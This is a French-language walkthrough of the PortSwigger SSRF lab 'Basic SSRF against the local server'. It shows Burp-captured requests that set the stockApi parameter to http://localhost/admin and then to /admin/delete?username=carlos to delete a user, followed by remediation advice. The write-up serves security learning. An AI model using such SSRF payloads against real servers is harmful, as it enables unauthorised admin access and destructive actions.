






# Lab: Basic SSRF against the local server

> **CTF :** PORTSWIGGER  

> **Catégorie :** Server-side request forgery (SSRF)  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** 26/07/2026  

> **Statut :** ✅ Résolu

---

## 📌 Description du Challenge

> *This lab has a stock check feature which fetches data from an internal system.
To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.*

---

## 🎯 Objectif

- Nous devons modifier l'URL de vérification de stock pour accéder à l'interface d'administration à http://localhost/admin et supprimer l'utilisateur Carlos. 
---

## 🔍 Reconnaissance

- c'est une application qui propose des produits et possède un moyen de consulter le stock.  

-  Nous sélectionnons un produit de la boutique et activons l'interception dans Burp Suite au moment de vérifier le stock pour capturer la requête HTTP.   


**Observations :**
-  En cliquant sur le bouton de vérification, nous constatons qu'une requête HTTP POST est générée. Celle-ci transmet un paramètre d'API qui cible le serveur de stock.


**Outils utilisés :**
- BurpSuites

---

## 🧠 Hypothèse

L'objectif est d'exploiter la fonctionnalité de vérification des stocks afin de forcer l'accès à l'interface d'administration.

---

## ⚔️ Exploitation

### Étape 1 — tester l'accès direct au répertoire /admin  

- Nous interceptons la requête HTTP POST afin de modifier le paramètre stockApi, visant ainsi à compromettre le contrôle d'accès et à afficher l'interface d'administration. 


**Requête :**  


```http
POST /product/stock HTTP/2
Host: 0ac800c9033a368882bf15e70048005e.web-security-academy.net
Cookie: session=PWWLI2ADXjDnXJX5UZhCpmzHIj4yiBqi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ac800c9033a368882bf15e70048005e.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ac800c9033a368882bf15e70048005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost/admin
```

**Réponse :**  

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=oybNcpAVvKBt7alkOC9LscwhcAE3jLWS; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3174

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/ac
```


---

### Étape 2 — analyse

- Page admin accessible en lecture seule : contenu visible, mais suppression d'utilisateur impossible.

**Requête :**
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac800c9033a368882bf15e70048005e.web-security-academy.net
Cookie: session=PWWLI2ADXjDnXJX5UZhCpmzHIj4yiBqi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ac800c9033a368882bf15e70048005e.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```  


**Réponse :**
```
Admin interface only available if logged in as an administrator, or if requested from loopback 
```  


---

### Étape 3 — 

- Pour cette étape, nous ne nous contentons pas de cibler l'interface d'administration via http://localhost/admin. Nous y ajoutons directement le chemin /delete?username=carlos afin de forcer l'exécution immédiate de l'action de suppression sur la machine locale.


**Payload utilisé :**
```http
POST /product/stock HTTP/2
Host: 0a5a000303b451fa8275ba3c009c0001.web-security-academy.net
Cookie: session=XMVRgdTjurBBfzgGoqAv8rwOpeipxjvq; session=ZG2QlECNKyTN2KfXYPdgJ5PbXe1remQz
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000303b451fa8275ba3c009c0001.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a5a000303b451fa8275ba3c009c0001.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost/admin/delete?username=carlos
```

**Résultat :**


---

## 🚩 Flag




---

## 🛡️ Remédiation
Pour un développeur ou un administrateur système, voici comment empêcher cette attaque :  

1. Mettre en place une Allowlist (Liste blanche)Restreindre strictement les URLs ou adresses IP que le serveur est autorisé à appeler. Si le serveur doit uniquement contacter une API externe spécifique, seule cette API doit être autorisée.  
2. Bloquer les résolutions locales (Denylist)Interdire explicitement au serveur de requêter localhost, 127.0.0.1, les plages d'adresses IP privées (RFC 1918 comme 10.0.0.0/8, 192.168.0.0/16) et les adresses de métadonnées (ex: 169.254.169.254).  
3. Validation et assainissement des entrées (Sanitization)Ne jamais faire confiance à la chaîne de caractères fournie par l'utilisateur. Il faut parser l'URL proprement et vérifier que le protocole (ex: exiger uniquement https://) et le port sont légitimes.  
4. Authentification locale obligatoireL'application ne devrait jamais considérer qu'une requête est sûre uniquement parce qu'elle provient de localhost. Même en interne, l'accès aux fonctions administratives (/delete) doit exiger un jeton d'authentification ou des privilèges administrateur stricts.


---

## 💡 Points Clés à Retenir

- Le concept clé : SSRF (Server-Side Request Forgery)Le serveur fait confiance aveuglément aux entrées de l'utilisateur pour former une requête HTTP interne. Tu as forcé le serveur à attaquer sa propre infrastructure (localhost).  

-Contournement de contrôle d'accèsUne page d'administration (comme /admin) est souvent bloquée depuis l'extérieur (Internet), mais accessible sans restriction depuis l'intérieur (le réseau local ou 127.0.0.1).  

- Enchaînement d'actions (Chaining)Une SSRF ne sert pas qu'à lire du contenu (GET /admin). Elle permet aussi de déclencher des actions destructrices via des requêtes d'action (GET /admin/delete?username=carlos).  

---

## 📚 Références

- [PortSwigger — Lab: Basic SSRF against the local server](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*
*PORTSWIGGER🌍*
